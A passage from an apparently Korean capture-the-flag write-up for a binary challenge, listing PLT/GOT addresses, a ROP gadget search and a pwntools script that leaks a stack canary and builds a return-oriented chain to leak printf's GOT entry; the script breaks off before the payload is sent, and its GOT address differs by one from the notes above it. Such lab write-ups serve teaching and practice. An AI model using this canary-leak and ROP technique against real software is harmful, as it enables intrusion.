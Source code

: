 **printf\_plt=0x400600 <br>
printf\_got=0x601030 <br>
main=0x400727**

<pre>
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x004008e3 : (b'5fc3')	pop rdi; ret
</pre>

**pop\_rdi\_ret=0x4008e3**

코드는 다음과 같다.
<pre>
from pwn import*

#p=process('./World_best_encryption_tool')
p=remote('ctf.j0n9hyun.xyz',3027)
#gdb.attach(p)

printf_plt=0x400600
printf_got=0x601031
main=0x400727
pop_rdi_ret=0x4008e3

p.recvline()
sleep(0.1)

p.sendline('A'*57)
sleep(0.1)

p.recvline()
sleep(0.1)

p.recv(0x39)
sleep(0.1)
canary=u64(p.recv(7).rjust(8,'\x00'))

p.recvuntil('(Yes/No)\n')
sleep(0.1)

p.sendline('Yes')
sleep(0.1)

log.info('canary is '+str(hex(canary)))
sleep(0.1)

payload='A'*0x38
payload+=p64(canary)
payload+='A'*0x38
payload+=p64(canary)
payload+='A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(printf_got)
payload+=p64(printf_plt)
payload+=p64(main)
